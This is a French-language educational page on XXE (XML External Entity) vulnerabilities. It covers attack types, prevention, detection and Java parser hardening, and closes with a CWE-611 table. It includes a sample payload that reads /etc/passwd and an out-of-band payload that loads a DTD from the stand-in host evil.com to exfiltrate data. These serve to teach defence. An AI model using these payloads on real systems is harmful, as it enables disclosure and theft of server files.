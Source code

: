 ### Description

Les failles d'XML External Entity (XXE) se produisent lorsqu'une application XML permet à un attaquant d'inclure des entités externes malveillantes ou des références à des ressources externes non sécurisées dans un document XML. Cela peut entraîner la divulgation de données sensibles, le déni de service, voire l'exécution de code à distance.

---
### Types d'Attaques XXE

 **XXE Basique :**

- Se produit lorsque l'application XML traite les entités externes sans validation ou protection adéquates.

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

   - Cette attaque récupère le contenu du fichier `/etc/passwd`.

**XXE Out-Of-Band (OOB) :**

- Se produit lorsque l'attaquant utilise l'entité externe pour initier une connexion sortante vers un serveur contrôlé par lui.

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "http://evil.com/xxe.dtd">
%xxe;
]>
<foo>&all;</foo>
```

   - Cette attaque peut être utilisée pour exfiltrer des données vers un serveur contrôlé par l'attaquant.

---
### Prévention des Attaques XXE

**Désactivation du Parsing des DTD :**

- Désactiver le parsing des DTD (Document Type Definitions) dans les bibliothèques XML.

**Validation des Entrées XML :**

- Valider et restreindre les entrées XML pour s'assurer qu'elles ne contiennent pas d'entités externes malveillantes.

**Utilisation de Méthodes Sécurisées :**

- Utiliser des méthodes sécurisées pour le traitement des documents XML, telles que DOM sécurisé ou SAX avec les entités externes désactivées.

---
### Détection des Failles XXE

**Analyse de la Configuration :**

- Examiner la configuration XML pour vérifier si le parsing des DTD est activé.

**Tests Manuels :**

- Effectuer des tests manuels en injectant des payloads XXE et en observant les réponses de l'application.

**Utilisation d'Outils de Sécurité :**

- Utiliser des outils de sécurité tels que Burp Suite, OWASP ZAP, ou des scanners spécifiques pour détecter les failles XXE.

---
### Exemples de Prévention

**Désactivation des DTD dans Java :**

```java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true);
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
```

**Utilisation de SAXParser avec les Entités Externes Désactivées :**

```java
SAXParserFactory factory = SAXParserFactory.newInstance();
factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
SAXParser parser = factory.newSAXParser();
```

---

| Catégorie                    | Information                                                                                                                                                                                                                                                                                     |
| ---------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **TTP**                      | Exploitation des références d'entités externes dans XML                                                                                                                                                                                                                                         |
| **CWE**                      | CWE-611 (Improper Restriction of XML External Entity Reference)                                                                                                                                                                                                                                 |
| **Description de l'attaque** | Une attaque XXE se produit lorsqu'un attaquant exploite des applications qui analysent XML de manière à injecter des références à des entités externes malveillantes. Cela peut mener à la divulgation d'informations confidentielles, au déni de service, ou à l'exécution de code à distance. |
| **Impacts potentiels**       | - Divulgation d'informations sensibles<br>- Déni de service<br>- Exécution de code à distance<br>- Porte dérobée dans les systèmes                                                                                                                                                              |
| **Comment la détecter**      | - Analyse de code statique et dynamique<br>- Utilisation de scanners de vulnérabilité<br>- Tests de pénétration ciblant les fonctionnalités de traitement XML                                                                                                                                   |
| **Remédiations/mitigations** | - Désactivation du traitement des entités externes dans les parseurs XML<br>- Validation et nettoyage des entrées XML<br>- Utilisation de listes blanches pour les éléments XML traités<br>- Mise à jour régulière des bibliothèques et frameworks XML                                          |
| **Lien de référence**        | [OWASP - XML External Entity (XXE) Processing](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)                                                                                                                                                            |
